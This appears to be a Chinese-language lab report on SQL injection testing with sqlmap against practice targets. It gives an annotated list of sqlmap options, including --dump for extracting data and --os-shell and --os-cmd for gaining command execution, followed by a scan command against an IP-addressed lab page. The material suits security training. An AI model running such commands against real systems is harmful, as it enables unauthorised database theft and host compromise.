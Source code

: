 （2）掌握指定参数、指定数据库、指定数据表、下载数据表操作步骤。

（3）测试url：http://testphp.vulnweb.com/artists.php?artist=1

## 实验过程记录

（所有的扫描配置过程、扫描中间截图，以及扫描结果的一些漏洞验证截图（可选，自己能够验证的漏洞））

#### 1）基本命令

```
-u 指定目标URL (可以是http协议也可以是https协议)
-d 连接数据库
--dbs 列出所有的数据库
--current-db 列出当前数据库
--tables 列出当前的表
--columns 列出当前的列
-D 选择使用哪个数据库
-T 选择使用哪个表
-C 选择使用哪个列
--dump 获取字段中的数据
--batch 自动选择yes
--smart 启发式快速判断，节约浪费时间
--forms 尝试使用post注入
-r 加载文件中的HTTP请求（本地保存的请求包txt文件）
-l 加载文件中的HTTP请求（本地保存的请求包日志文件）
-g 自动获取Google搜索的前一百个结果，对有GET参数的URL测试
-o 开启所有默认性能优化
--tamper 调用脚本进行注入
-v 指定sqlmap的回显等级
--delay 设置多久访问一次
--os-shell 获取主机shell，一般不太好用，因为没权限
--os-cmd 执行命令
-m 批量操作
-c 指定配置文件，会按照该配置文件执行动作
-data data指定的数据会当做post数据提交
-timeout 设定超时时间
-level 设置注入探测等级
--risk 风险等级
--identify-waf 检测防火墙类型
--param-del="分割符" 设置参数的分割符
--skip-urlencode 不进行url编码
--keep-alive 设置持久连接，加快探测速度
--null-connection 检索没有body响应的内容，多用于盲注
--thread 最大为10 设置多线程


```

#### 2）扫描是否存在漏洞

```
sqlmap -u http://212.129.238.18:8000/vul/sqli/sqli_str.php\?name\=123\&submit\=%E6%9F%A5%E8%AF%A2
```
